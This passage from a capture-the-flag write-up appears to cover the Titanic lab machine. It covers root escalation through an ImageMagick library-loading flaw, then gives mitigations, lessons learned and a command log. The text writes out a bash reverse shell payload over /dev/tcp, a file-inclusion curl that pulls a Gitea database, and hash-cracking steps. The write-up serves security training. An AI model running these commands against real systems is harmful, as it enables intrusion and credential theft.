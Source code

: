 `magick --version` - shows the version lines up with the vulnerability.

---
## 6. Privilege Escalation

Reading the script I can see that it is accessing files in `/opt/app/static/assets/images/`. 

`ls -l /opt/app/static/assets/images` - I can see the *metadata.log* file has been recently updated. It's possible the *identify_images.sh* script is on a timer. Using the proof of concept on github, I modified the *libxcb.so.1* file to contain a reverse shell payload - `"/bin/bash -c 'bash -i >& /dev/tcp/>IP</>PORT< 0>&1'"`, and set up a netcat listener on my machine using `nc -lvnp >PORT<`. This file must be placed in the same directory that the `magick` program is searching.

A few moments later and a root shell had spawned, giving me root access to the machine. 

---

## 7. Mitigations and Recommendations
- Properly sanitize the /download?ticket= endpoint to prevent file inclusion.
- Use strong credentials when creating accounts, at minimum - one lowercase letter, one uppercase letter, one digit, one special character, and twelve characters in length.
- Keep software/programs up to date to mitigate vulnerabilities. 

---

## 8. Lessons Learned
- Local file inclusion is a way to enumerate further into the system.
- Gitea requires a proper format for the hashes to become crackable.
- Investigate scripts to find potential cronjobs.
- Take the time to properly enumerate the system to find initial and escalation paths.

---

## 9. Appendix: Full Command Log
`nmap -p- -vv -A -oN scans/nmap 10.10.11.55`

`ffuf -w /usr/share/wordlists/SecLists-master/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -fw 20`

`curl "http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db" -o files/gitea.db`

`sqlite3 gitea.db`

`.tables`

`.schema user`

`select email, salt, passwd, passwd_hash_algo from user;` 

`curl -O https://raw.githubusercontent.com/hashcat/hashcat/master/tools/gitea2hashcat.py`

`sqlite3 gitea.db 'select salt, passwd from user' | ./gitea2hashcat.py > hash.txt`

`ssh developer@10.10.11.55`

`sudo -l`

`id`

`find / -perm -4000 2>/dev/null`

`find / -name \*.sh -user root 2>/dev/null | grep -E -v 'lib|share|linux'

`cat /opt/scripts/identify_images.sh`

`magick --version` 

`ls -l /opt/app/static/assets/images` 

`nc -lvnp >PORT<`